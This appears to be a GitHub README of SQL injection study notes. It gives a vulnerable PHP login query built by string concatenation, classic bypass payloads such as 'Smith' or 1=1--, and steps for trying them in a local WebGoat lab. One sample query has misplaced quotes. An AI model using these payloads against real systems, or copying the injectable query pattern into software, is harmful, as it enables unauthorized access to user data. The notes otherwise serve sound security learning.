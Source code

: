 # SQL-Injection

## Impact of SQL Injection :

- Extract sensitive information

- Misusing authentication details

- Delete data & Drop tables

## Types of SQL Injection

SQL Injection

1. In-Band SQLi
   
     a. Error Based
     
     b. Union Based
     
2. Blind SQLi

     a. Boolean Based
     
     b. Time Based
    
3. Out of bound SQLi

## SQL Injection 

   SAMPLE:
   
   $statement = " SELECT * FROM users WHERE username = '$user' AND password = '$password' ";
   
   $statement = " SELECT * FROM users WHERE username = 'Dowlath' AND password = 'dowlath' ";
   
   HACKER:
   
   $statement = " SELECT * FROM users WHERE username = 'Dowlath OR '1' == '1' --' AND password = '$password' ";
   
   Example :
   
   Smith' or '1'='1

   Smith' or 1=1--

   Content is  only one user: Plane' or 1=1 LIMIT 1-- 

   if you want to get 5 users.

   Content is  only one user: Plane' or 1=1 LIMIT 5-- 

## TEST

1. Google find " webgoat8 "

2. Download github jar file from corresponding location.

3. If you downloaded latest version *.jar file , it will support latest version of java. So before run the jar file check once you java -version.

4. Run the jar file => D:\Spring-Boot-Security\sql-injection-webgoat-8.0>java -jar "webgoat-server-8.0.0.M17.jar"

5. Login in the browser -> http://localhost:8080/WebGoat/login

 ![login](https://user-images.githubusercontent.com/9671419/87229033-963eef00-c3c2-11ea-823e-dfbb428e860e.PNG)

6. If you are not registered create the user and access.

7. Execute the sql inject commands.

   As follows patterns,
   
   Smith' or '1'='1

   Smith' or 1=1--

   Content is  only one user: Plane' or 1=1 LIMIT 1-- 

   if you want to get 5 users.

   Content is  only one user: Plane' or 1=1 LIMIT 5--    
  
![webgoat_2](https://user-images.githubusercontent.com/9671419/87229035-97701c00-c3c2-11ea-9eeb-785e3aeaa679.PNG)


